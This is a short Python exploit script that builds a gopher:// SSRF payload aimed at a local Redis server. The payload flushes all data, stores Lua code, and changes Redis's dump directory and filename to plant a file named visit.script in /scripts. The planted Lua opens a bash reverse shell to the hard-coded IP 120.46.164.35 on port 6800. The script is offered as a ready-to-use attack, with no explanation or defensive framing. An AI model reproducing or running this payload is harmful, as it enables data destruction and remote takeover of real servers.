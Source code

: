 

```python
import urllib.parse

content="""\n\n##LUA_START##\nio.popen("bash -c \'bash -i >& /dev/tcp/120.46.164.35/6800 0>&1\'")\n##LUA_END##\n\n"""
len_content = len(content) + 4 #有content上下有4个换行
dir="/scripts"
filename="visit.script"
payload = f"""*1\r
$8\r
flushall\r
*3\r
$3\r
set\r
$1\r
8\r
${str(len_content)}\r


{content}


\r
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
${str(len(dir))}\r
{dir}\r
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
${str(len(filename))}\r
{filename}\r
*1\r
$4\r
save\r
*1\r
$4\r
quit\r

"""

result=urllib.parse.quote_plus(payload).replace("+", "%20").replace("%2F", "/").replace("%25", "%").replace("%3A", ":")
print("gopher://127.0.0.1:6379/_"+result)
```
